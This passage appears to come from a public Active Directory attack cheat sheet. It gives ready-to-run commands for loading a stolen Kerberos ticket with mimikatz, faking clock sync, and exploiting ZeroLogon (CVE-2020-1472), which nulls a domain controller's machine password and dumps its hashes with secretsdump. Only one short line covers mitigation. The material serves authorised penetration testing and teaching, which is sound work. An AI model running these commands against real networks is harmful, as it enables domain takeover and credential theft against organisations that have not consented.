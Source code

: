 Then use `mimikatz` to load the ticket.

```powershell
mimikatz.exe "kerberos::ptc c:\temp\TGT_darthsidious@lab.adsecurity.org.ccache"
```

:warning: If the clock is skewed use `clock-skew.nse` script from `nmap`

```powershell
Linux> $ nmap -sV -sC 10.10.10.10
clock-skew: mean: -1998d09h03m04s, deviation: 4h00m00s, median: -1998d11h03m05s

Linux> sudo date -s "14 APR 2015 18:25:16" 
Windows> net time /domain /set
```

#### Mitigations

* Ensure the DCPromo process includes a patch QA step before running DCPromo that checks for installation of KB3011780. The quick and easy way to perform this check is with PowerShell: get-hotfix 3011780

### From CVE to SYSTEM shell on DC

> Sometimes you will find a Domain Controller without the latest patches installed, use the newest CVE to gain a SYSTEM shell on it. If you have a "normal user" shell on the DC you can also try to elevate your privileges using one of the methods listed in [Windows - Privilege Escalation](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md)


#### ZeroLogon

> CVE-2020-1472

White Paper from Secura : https://www.secura.com/pathtoimg.php?id=2055

Exploit steps from the white paper

1. Spoofing the client credential
2. Disabling signing and sealing
3. Spoofing a call
4. Changing a computer's AD password to null
5. From password change to domain admin
6. :warning: reset the computer's AD password in a proper way to avoid any Deny of Service

* `cve-2020-1472-exploit.py` - Python script from [dirkjanm](https://github.com/dirkjanm)
  ```powershell
	# Check (https://github.com/SecuraBV/CVE-2020-1472)
	proxychains python3 zerologon_tester.py DC01 172.16.1.5
	
  $ git clone https://github.com/dirkjanm/CVE-2020-1472.git

  # Activate a virtual env to install impacket
  $ python3 -m venv venv
  $ source venv/bin/activate
  $ pip3 install .
	
  # Exploit the CVE (https://github.com/dirkjanm/CVE-2020-1472/blob/master/cve-2020-1472-exploit.py)
  proxychains python3 cve-2020-1472-exploit.py DC01 172.16.1.5

  # Find the old NT hash of the DC
  proxychains secretsdump.py -history -just-dc-user 'DC01$' -hashes :31d6cfe0d16ae931b73c59d7e0c089c0 'CORP/DC01$@DC01.CORP.LOCAL'

  # Restore password from secretsdump 
  # secretsdump will automatically dump the plaintext machine password (hex encoded) 
  # when dumping the local registry secrets on the newest version
  ```